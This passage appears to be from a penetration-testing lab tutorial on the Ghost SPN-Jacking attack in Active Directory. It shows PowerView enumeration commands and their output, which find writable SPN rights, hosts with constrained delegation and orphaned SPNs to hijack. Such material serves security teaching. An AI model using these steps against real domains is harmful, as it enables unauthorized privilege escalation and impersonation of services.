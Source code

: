 When using PowerView we need to search for `WriteProperty` on the [ServicePrincipalName attribute](https://learn.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) which reference by the system guid `f3a64788-5306-11d1-a9c5-0000f80367c1` and resolved as `Validated-SPN`. Additionally we can search for any other rights that allow us to modify the SPNs such as `GenericAll`, `GenericWrite`, etc:

```powershell
PS C:\Tools> Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $(ConvertTo-SID gabriel)}

AceQualifier           : AccessAllowed
ObjectDN               : CN=WEB01,OU=Servers,DC=inlanefreight,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Validated-SPN
ObjectSID              : S-1-5-21-831407601-1803900599-2479021482-1117
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-831407601-1803900599-2479021482-1106

```

Next we need to make sure that the computer we own has `Contrained Delegation` enabled:

```powershell
PS C:\Tools> Get-DomainComputer -TrustedToAuth | select name, msds-allowedtodelegateto

name  msds-allowedtodelegateto
----  ------------------------
SRV01 {www/WS01, www/WS01.inlanefreight.local, dmserver/DBSRV003, dmserver/DBSRV003.inlanefreigth.local...}

```

Now to perform the Ghost SPN-Jacking attack we must look for orphaned SPNs on `SRV01`, with the aim of assigning them to our target machine `WEB01`.

We can use [PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1) to search for servers configured for Constrained Delegation and to map which servers are configured. We will also use [Get-ConstrainedDelegation.ps1](https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/Get-ConstrainedDelegation.ps1), a wrapper around PowerView, that display the value of `msDS-AllowedToDelegateTo`. This attribute contains a list of Service Principal Names (SPNs) and is used to configure a service so that it can obtain service tickets that can be used for Constrained Delegation:

```powershell
PS C:\Tools> Import-Module C:\Tools\PowerView.ps1
PS C:\Tools> Import-Module C:\Tools\Get-ConstrainedDelegation.ps1
PS C:\Tools> Get-ConstrainedDelegation

Type  Name  Target  SPN
----  ----  ------  ---
Computer SRV01  DBSRV003 dmserver/DBSRV003
Computer SRV01  DBSRV003 dmserver/DBSRV003.inlanefreigth.local
Computer SRV01  EXCH03  www/EXCH03
Computer SRV01  EXCH03  www/EXCH03.inlanefreigth.local
Computer SRV01  DATABASE01 dhcp/DATABASE01
Computer SRV01  DATABASE01 dhcp/DATABASE01.inlanefreigth.local

```
